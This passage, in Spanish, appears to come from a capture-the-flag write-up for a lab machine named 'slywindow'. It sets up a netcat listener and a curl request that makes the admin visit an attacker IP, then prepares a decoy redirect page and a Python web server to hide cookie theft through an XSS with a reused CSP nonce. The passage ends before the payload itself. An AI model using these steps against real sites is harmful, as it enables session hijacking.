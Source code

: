 Lo más relevante del mensaje es que indica que el administrador visitará de forma inmediata la URL proporcionada.

### Exfiltración de cookies del administrador

Para verificar que el administrador realmente visita las URLs proporcionadas a través de la API, configuramos un listener con netcat en nuestra máquina atacante.

```bash
nc -lvp 80
```

y enviamos una solicitud a la API incluyendo una URL que apunte a la IP de nuestra máquina atacante (en este caso, 10.0.2.7) desde otro terminal para comprobar si el administrador accede a ella.

```bash
curl -H 'X-API-Key: d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79' -d '{"message":"test","url":"http://10.0.2.7"}' -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```

Tras aproximadamente 30 segundos, recibimos una solicitud entrante en nuestro listener de netcat, confirmando que el administrador ha accedido a la URL proporcionada.

![](../../../assets/images/slywindow/20250801_020051_image.png)

Se confirma que el administrador visita las URLs enviadas a través de la API, aunque únicamente lo hace una vez. Sabiendo que existe una vulnerabilidad de XSS en `http://www.slywindow.nyx/admin.php?message=`, y aprovechando un `nonce` inseguro en las cabeceras CSP, podemos enviar un enlace malicioso al administrador con el objetivo de robar su cookie.

En primer lugar, es necesario obtener nuevamente el valor actual del `nonce` inseguro de las cabeceras, ya que este podría haber cambiado desde la última vez que lo capturamos.

A continuación, creamos un archivo `index.html` en nuestra máquina atacante que redirige a Google, simulando una acción legítima.

```bash
echo '<script>location.href="https://www.google.com";</script>' > index.html
```

A continuación, levantamos un servidor web con Python en la misma carpeta donde se encuentra el archivo `index.html` que redirige a google.com, con el objetivo de camuflar la exfiltración de cookies.

```bash
python3 -m http.server 80
```

Antes de atacar al administrador, probamos la exfiltración de cookies en nuestra propia sesión. Para ello, generamos el script malicioso y lo codificamos en URL dentro del parámetro `?error=`.
